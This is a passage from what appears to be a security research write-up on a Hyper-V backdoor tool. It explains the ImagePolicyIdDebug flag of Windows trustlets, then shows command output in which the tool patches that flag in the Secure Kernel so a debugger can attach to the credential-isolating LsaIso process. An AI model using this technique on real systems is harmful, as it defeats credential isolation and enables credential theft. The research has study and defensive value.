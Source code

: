 ```
```

Trustlet executable image also contains the structure called [Image Policy Metadata](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_image_policy_metadata) that dascribes its capabilities. Among various interesting things it has `ImagePolicyIdDebug` property, it tells the Secure Kernel if it's possible to attach debugger to the trustlet process or not.

From the example above you can see that LSAIso trustlet has `ImagePolicyIdDebug` set to zero, it prevents the attacker from attaching debugger to this process and compromising its memory contents:

```
> C:\Debuggers\x64\cdb.exe -pn LsaIso.exe

Microsoft (R) Windows Debugger Version 10.0.18362.1 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

Cannot debug pid 792, NTSTATUS 0xC0000022
    "{Access Denied}  A process has requested access to an object, but has not been granted those access rights."
Debuggee initialization failed, NTSTATUS 0xC0000022
{Access Denied}  A process has requested access to an object, but has not been granted those access rights.
```

Hyper-V backdoor client allows to patch `ImagePolicyIdDebug` property of specified trustlet process to allow its debugging:

```
> .\backdoor_client.exe 0 --sk-debug-enable 792
[+] Running on CPU #0
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff833df600d80...
[+] Running secure kernel detected, 6 VTL1 calls were made
[+] Secure kernel IDT vector #0 is at 0xfffff800582d7400
[+] securekernel.exe is at 0xfffff80058295000
[+] securekernel.exe image size is 0xf4000 bytes
[+] Secure kernel build number is 10011
[+] securekernel!SkpspProcessList is at 0xfffff8005835b820
[+] SKPROCESS for PID 792 is at 0xffff988010191740
[+] Image policy is at 0x7ff6481a3470
[+] ImagePolicyIdDebug found, current value is 0
[+] Image policy was successfully patched

> C:\Debuggers\x64\cdb.exe -pn LsaIso.exe

Microsoft (R) Windows Debugger Version 10.0.18362.1 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

*** wait with pending attach
Symbol search path is: srv*
Executable search path is:
ModLoad: 00007ff6`48160000 00007ff6`481a6000   C:\Windows\system32\lsaiso.exe
ModLoad: 00007fff`0b040000 00007fff`0b230000   C:\Windows\SYSTEM32\ntdll.dll
ModLoad: 00007fff`0ab10000 00007fff`0abc2000   C:\Windows\SYSTEM32\KERNEL32.DLL
ModLoad: 00007fff`081b0000 00007fff`08453000   C:\Windows\SYSTEM32\KERNELBASE.dll
ModLoad: 00007fff`0ad70000 00007fff`0ae0e000   C:\Windows\system32\msvcrt.dll
ModLoad: 00007fff`07990000 00007fff`079a2000   C:\Windows\system32\iumcrypt.dll
ModLoad: 00007fff`099e0000 00007fff`09a77000   C:\Windows\SYSTEM32\sechost.dll
ModLoad: 00007fff`07960000 00007fff`07988000   C:\Windows\system32\KerbClientShared.dll
ModLoad: 00007fff`07950000 00007fff`0795d000   C:\Windows\system32\NtlmShared.dll
ModLoad: 00007fff`07fb0000 00007fff`07fc2000   C:\Windows\system32\MSASN1.dll
ModLoad: 00007fff`07940000 00007fff`07948000   C:\Windows\system32\IUMBASE.dll
ModLoad: 00007fff`0a4d0000 00007fff`0a5f0000   C:\Windows\system32\RPCRT4.dll
ModLoad: 00007fff`08820000 00007fff`08846000   C:\Windows\system32\bcrypt.dll
ModLoad: 00007fff`07920000 00007fff`07934000   C:\Windows\system32\cryptdll.dll
ModLoad: 00007fff`08510000 00007fff`08527000   C:\Windows\system32\CRYPTSP.dll
```